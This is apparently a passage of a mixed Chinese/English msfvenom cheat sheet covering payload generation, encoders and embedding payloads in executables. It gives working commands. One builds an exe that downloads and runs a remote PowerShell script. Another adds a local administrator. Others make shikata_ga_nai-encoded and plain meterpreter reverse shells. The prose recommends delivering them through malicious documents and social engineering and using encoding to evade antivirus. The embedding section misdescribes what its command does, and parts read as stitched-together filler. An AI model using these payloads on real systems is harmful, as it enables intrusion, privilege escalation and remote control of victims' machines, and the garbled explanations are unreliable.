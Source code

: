 生成有效载荷后，可以通过多种方式使用，例如将其嵌入恶意文档中或通过社会工程攻击进行传递。
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe
msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe
```
### 编码器

An encoder is a tool used in hacking to obfuscate or encode malicious payloads. It is commonly used to bypass security measures such as antivirus software or intrusion detection systems (IDS). By encoding the payload, the hacker can make it more difficult for security tools to detect and analyze the malicious code.

There are various encoding techniques that can be used, such as XOR, base64, or hexadecimal encoding. These techniques convert the payload into a different format that can be decoded by the target system. The encoded payload can then be delivered to the target and decoded to execute the malicious actions.

Using an encoder can be an effective way to evade detection and increase the success rate of a hacking attack. However, it is important to note that encoding alone may not be sufficient to bypass advanced security measures. Additional techniques, such as encryption or obfuscation, may also be required to fully evade detection.

In summary, an encoder is a valuable tool in a hacker's arsenal for obfuscating and encoding malicious payloads to bypass security measures. It is important for hackers to stay updated on the latest encoding techniques and understand how to effectively use them in their attacks.
```bash
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
### 嵌入可执行文件中

To embed a payload inside an executable file, you can use the `msfvenom` tool from the Metasploit Framework. This tool allows you to generate a custom payload and inject it into an existing executable file.

To embed the payload, you need to specify the `--payload` option followed by the desired payload type. For example, you can use `windows/meterpreter/reverse_tcp` for a Windows target or `linux/x86/meterpreter/reverse_tcp` for a Linux target.

Next, you need to specify the `--format` option to indicate the desired output format. You can choose formats such as `exe`, `elf`, or `dll`, depending on the target platform.

Finally, you need to specify the `--out` option followed by the output file name. This will create a new executable file with the embedded payload.

Here is an example command to embed a payload inside an executable file:

```
msfvenom --payload windows/meterpreter/reverse_tcp --format exe --out payload.exe
```

Remember to replace `windows/meterpreter/reverse_tcp` with the appropriate payload for your target.

Once the payload is embedded, you can deliver the modified executable file to the target system. When the file is executed, the payload will be executed as well, providing you with a remote shell or other desired functionality.
